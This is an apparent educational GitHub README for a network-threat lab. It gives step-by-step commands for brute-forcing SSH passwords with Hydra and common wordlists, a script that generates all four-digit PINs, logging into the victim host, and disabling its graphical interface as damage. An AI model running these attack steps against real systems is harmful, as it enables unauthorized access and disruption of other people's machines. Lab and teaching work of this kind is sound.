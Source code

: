 # CyberSleuth-ExploringNetworkThreats
---
##### This project is intended to run on Kali Linux virtual machine.
### Instructions
To connect physical machines using Kali Linux on VirtualBox, we had to ensure that the virtual machines have access to the same network. A bridged adapter in networking connects the virtual machine directly to the physical network, enabling it to appear as a distinct device on the network, sharing the host's IP address. Once the VMs are connected, the following steps can be followed.
### 1. Password Decryption with Hydra
#### Method 1: Alphanumerical Password Lists
We will use comprehensive collection of commonly used passwords, to aid in our password decryption efforts. fasttrack.txt and rockyou.txt are two popular password lists.

Navigate to this diectory:
```bash
cd /usr/share/wordlists
```
Run hydra to test different possible passwords.
```bash
hydra -l user -P fasttrack.txt ssh://target_ip -V -F
```
#### Method 2: Numerical Password Guessing
Generate all possible 4 digit passwords combinations with this python script
```python
with open("four_digit_combinations.txt", "w") as f:
   	for i in range(10000):
       	f.write("{:04d}\n".format(i))
```
Execute .py file in terminal
```bash
python four_digit_generator.py
```
Hydra brute-force attack
```bash
hydra -l user -P four_digit_combinations.txt -t 4 -V -o hydra_output.txt ssh://target_ip
```
### 2. Using SSH to Gain Control of a Host Computer
Once the attacker has obtained valid credentials, they can use SSH to connect to the target host computer. The command to initiate an SSH connection is:
```bash
ssh username@target_ip
```
Upon connecting, SSH prompts for the password associated with the provided username. The attacker enters the obtained password.

### 3. Disabling the Graphical User Interface (GUI) 
Now that attacker has gained access to victim machine there is scope for damage.
To disable GUI temporarily:
```bash
sudo systemctl isolate multi-user.target
```
To enable the GUI temporarily:
```
sudo systemctl isolate graphical.target
```
